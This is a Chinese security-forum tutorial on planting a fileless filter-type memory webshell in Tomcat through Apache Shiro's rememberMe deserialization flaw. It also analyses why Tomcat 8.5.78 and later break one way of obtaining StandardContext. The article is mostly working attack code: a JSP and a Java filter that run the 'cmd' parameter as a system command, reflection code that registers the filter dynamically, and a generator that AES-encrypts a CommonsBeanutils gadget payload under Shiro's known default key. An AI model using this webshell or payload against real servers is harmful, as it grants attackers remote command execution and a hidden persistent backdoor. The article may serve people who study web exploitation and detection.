# shiro 注入 filter 内存马及 tomcat 版本对获取 context 影响的分析 - 先知社区

shiro 注入 filter 内存马及 tomcat 版本对获取 context 影响的分析

- - -

### 前言

这是个人在学习 filter 内存马注入的时候遇到的一个坑，希望后面学习的小白们能够避开。

#### 环境配置及准备

tomcat：tomcat8.5.50(正确版本)，tomcat8.5.79(踩坑版本)  
shiro 环境：p 神的 Java 安全配套环境 (里面的 shirodemo)[https://github.com/phith0n/JavaThings](https://github.com/phith0n/JavaThings)

### shiro 注入 filter 内存马

在之前有了 jsp 型内存马实现的经验之后，我们需要思考一件事情。之前的以 jsp 形态为主的内存马的使用方式是通过上传文件然后再访问的方式进行利用，那么如果一个网站他没有文件上传的接口或者是功能这样的话我们该如何实现“种马”呢？这就要说到无文件落地内存马了，这种内存马一般是通过反序列化的方式注入到服务端当中而不会出现文件的落地。

如下是一个简单的 jsp 型 filter 内存马的一个简单实现，这里我写的很简洁，前半部分是恶意的 filter，后半部分是注册动态注册 filter

```plain
<%!
    public class EvilFilter implements Filter {
        public void init(FilterConfig filterConfig){
        }

        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            Runtime.getRuntime().exec(cmd);
            filterChain.doFilter(servletRequest, servletResponse);
        }

        public void destroy(){}
    }
%>

<%
    //StandardContext
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request request1 = (Request) field.get(request);
    StandardContext context = (StandardContext) request1.getContext();

    //FilterDef
    Filter filter = new EvilFilter();
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName("EvilFilter");
    filterDef.setFilterClass(filter.getClass().getName());
    context.addFilterDef(filterDef);

    //FilterConfig
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
    Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
    field1.setAccessible(true);
    Map filterConfigs = (Map)field1.get(context);
    filterConfigs.put("EvilFilter", filterConfig);

    //FilterMap
    FilterMap filterMap = new FilterMap();
    filterMap.setFilterName("EvilFilter");
    filterMap.addURLPattern("/*");
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    context.addFilterMap(filterMap);
%>
```

**FilterDefs**：存放 FilterDef 的数组，**FilterDef** 中存储着我们过滤器名，过滤器实例，作用 url 等基本信息  
**FilterConfigs**：存放 filterConfig 的数组，在 **FilterConfig** 中主要存放 FilterDef 和 Filter 对象等信息  
**FilterMaps**：存放 FilterMap 的数组，在**FilterMap**中主要存放了 FilterName 和对应的 URLPattern  
按照同样的逻辑，我们编写一个非 jsp 型的内存马的方式就是，找 StandardContext->创建一个 filterdef->利用反射找 filterconfig，利用之前的 filterdef 创建相应对象并加到 standardcontext 里面->创建 filtermap 写上对应的 urlpattern 并放到 context 里面。

#### 内存马实现

编写内存马我们最一开始的出发点就是从获取 StandardContext 开始的，在网上大多数关于 StandardContext 在 filter 内存马当中的获取方式都是通过线程 (ContextClassLoader) 来获取，其具体情况可以看**bitterz 师傅**写的文章[https://xz.aliyun.com/t/9914](https://xz.aliyun.com/t/9914) 其原因是当我们编写非 jsp 型内存马时，我们已经失去了 request 对象只能使用其他手段来获取。获取手段如下：

```plain
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
 StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

结合之前的 jsp 型的内存马，经过简单的替换我们就将 filter 内存马的主体部分初步完成了，如下所示。这一部分事实上是关于内存马注入的 (动态注册 filter)，还剩下内存马的主体部分。

```plain
//StandardContext
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();

//FilterDef
Filter filter = new BehinderFilter();
FilterDef filterDef = new FilterDef();
filterDef.setFilter(filter);
filterDef.setFilterName("EvilFilter");
filterDef.setFilterClass(filter.getClass().getName());
context.addFilterDef(filterDef);

//FilterConfig
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
field1.setAccessible(true);
Map filterConfigs = (Map)field1.get(context);
filterConfigs.put("EvilFilter", filterConfig);

//FilterMap
FilterMap filterMap = new FilterMap();
filterMap.setFilterName("EvilFilter");
filterMap.addURLPattern("/*");
filterMap.setDispatcher(DispatcherType.REQUEST.name());
context.addFilterMap(filterMap);
```

然后开始编写 filter 的主体部分，只需要写一个实现了 filter 接口的类就行，并加上一些必须要 override 的一些方法，由于后面在反序列化当中要用到 TemplatesImpl 用这个类来承载我们的恶意 filter 字节码，所以还要继承 AbstractTranslet。由此我们得到如下的一个恶意 filter

```plain
public class BehinderFilter extends AbstractTranslet implements Filter{

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        Runtime.getRuntime().exec(cmd);
        filterChain.doFilter(servletRequest, servletResponse);
        System.out.println("doFilter");
    }

    @Override
    public void destroy() {
    }
}
```

但这只实现了恶意 filter，并没有把动态注册 filter 的逻辑加进去，所以我们还应该考虑把之前写的代码塞到这里去，塞到哪里呢？在反序列化的时候恶意代码执行的位置一般都放在静态代码段以及构造函数当中，所以在 filter 内存马当中我们将动态注册 filter 的部分代码放到静态代码段中，让其在反序列化的时候就开始执行，最终我们得到 shiro 的 filter 型内存马。  
内存马如下：

```plain
public class BehinderFilter extends AbstractTranslet implements Filter{
    static {
        try {
            //StandardContext
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();
            //FilterDef
            Filter filter = new BehinderFilter();
            FilterDef filterDef = new FilterDef();
            filterDef.setFilter(filter);
            filterDef.setFilterName("EvilFilter");
            filterDef.setFilterClass(filter.getClass().getName());
            context.addFilterDef(filterDef);
            //FilterConfig
            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
            Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
            field1.setAccessible(true);
            Map filterConfigs = (Map)field1.get(context);
            filterConfigs.put("EvilFilter", filterConfig);
            //FilterMap
            FilterMap filterMap = new FilterMap();
            filterMap.setFilterName("EvilFilter");
            filterMap.addURLPattern("/*");
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            context.addFilterMap(filterMap);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        Runtime.getRuntime().exec(cmd);
        filterChain.doFilter(servletRequest, servletResponse);
        System.out.println("doFilter");
    }

    @Override
    public void destroy() {
    }
}
```

这里没有做回显处理只是简单的测试一下命令执行的功能。

#### 内存马测试

我们既然是要通过 shiro 的反序列化漏洞注入内存马，我们就要选择一个 gadget，在通常情况下 shiro 是没有 CC 依赖的，所以我选择打 CB 链。具体的 CB 链 payload 的构成可以参照 p 神的 java 安全漫谈配套源码[https://github.com/phith0n/JavaThings](https://github.com/phith0n/JavaThings) 众所周知想要完成 shiro 的反序列化还需要用 AES 对生成的 payload 进行加密，所以我们最终得到的 poc 如下，使用如下代码段即可完成 payload 的生成（CommonsBeanutils1Shiro() 就是 p 神的那条 CB 链）

```plain
public class Exp {
    public static void main(String []args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(BehinderFilter.class.getName());
        byte[] payloads = new CommonsBeanutils1Shiro().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

至此，我们万事俱备，生成 payload  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108164254-ea76359c-ae01-1.png)  
然后从 cookie 当中的 rememberme 字段传过去  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108164336-038a06c6-ae02-1.png)  
此时服务端会有报错，报了一个 unable to deserialize argument byte array 的错，所以内存马并没有成功  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108164510-3b73d8be-ae02-1.png)

#### 问题何在？

事实上，这是市面上大部分人给出的 shiro 注入内存马的过程，但是很显然并不奏效，问题出在哪里？我们应该到源码中去寻找。  
通过报错我们把目光放在 org.apache.shiro.io 中的 DefaultSerializer 里面，在这个类的 deserialize() 方法里面，出现了我们想要看到的报错字段。也就是说该代码的逻辑在 readobject 的时候发生了错误从而抛出异常。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108164747-98beab16-ae02-1.jpg)  
所以这一次我们跟到反序列化里面去，尝试追踪他的反序列化过程，看看究竟是哪里的问题，前面的流程就不再赘述，就是 CB 链的前面的一些流程如果再详述的话就显得有些冗长。我们直接来到 BeanComparator 的 compare 方法当中（这里跟的是刚才的 payload 的流程）  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108164820-ace7fb2e-ae02-1.jpg)  
这里按照 CB 链的流程走的话就应该是拿到 getoutputProperties 然后调用该函数从而触发 templatesImpl 里面的恶意代码。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108164855-c16578c4-ae02-1.jpg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108164910-ca87caf6-ae02-1.jpg)  
从这边来看是没什么问题的，所以错误的发生不出现在反序列化的过程，而是出现在恶意代码段。为了排查是哪段代码出了问题，我在内存马的代码段里面加入了一些输出语句用于调试。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108164945-df865dc8-ae02-1.png)  
这一次我们重新发送 payload，查看控制台的输出。我们最终发现代码只执行到了获取 classloader 的地方，下面获取 context 的地方就没有再执行了。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108165022-f53c8912-ae02-1.png)  
问题就很明确了，是通过线程获取 standardcontext 这一方式出了问题，我们直接去 WebappClassLoaderBase 里面看具体的细节，找到 getResources() 函数。从下面的图中我们不难发现这里面的 getResources() 返回的是 null 而且只返回 null。这就是问题的根源。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108165110-1228f196-ae03-1.png)  
如果回看之前的报错信息我们还能发现一条最前面的报错信息，空指针异常。刚好契合。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108165150-29bebc00-ae03-1.png)  
问题来了，为什么网上那么多人能够成功呢？原因出在 tomcat 的版本上，经过测试  
tomcat8.5.79 的应该都是不行的，因为 WebappClassLoaderBase#getResources() 函数只返回 null；但是 tomcat8.5.50 的版本它的 WebappClassLoaderBase#getResources() 函数是这样的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108165254-5000794e-ae03-1.png)  
于是把 tomcat 版本换成 8.5.50，测试结果如下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108165327-637e386c-ae03-1.png)

#### 后续版本的测试

经过了多个版本的更换最终测试出以下几个 tomcat8 版本的情况  
8.5.37 可以，8.5.60 可以，8.5.70 可以，8.5.77 可以，8.5.78 不可以，8.5.79 不可以，8.5.81 不可以  
在 tomcat8.5.78 版本之后该方法被标为了 Deprecated，而且其内部也是  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108165437-8d202c3e-ae03-1.png)  
总结一下应该是 8.5.78 往后的 tomcat8 都不行只有之前的版本可以使用 WebappClassLoaderBase#getResources()

### 后记

在有些博客当中会让你在 pom 当中当中添加 tomcat8.5.50 的依赖，这只会让你在运行前调试的时候成功。真正在运行时起作用的是你在 idea 里面 edit configuration 当中设置的 local tomcat 所以要想成功注入内存马必须要保证自己的 tomcat8 版本在 8.5.78 以下。

#### 参考连接

[https://github.com/phith0n/JavaThings](https://github.com/phith0n/JavaThings)  
[https://xz.aliyun.com/t/10362](https://xz.aliyun.com/t/10362)  
[https://xz.aliyun.com/t/9914](https://xz.aliyun.com/t/9914)
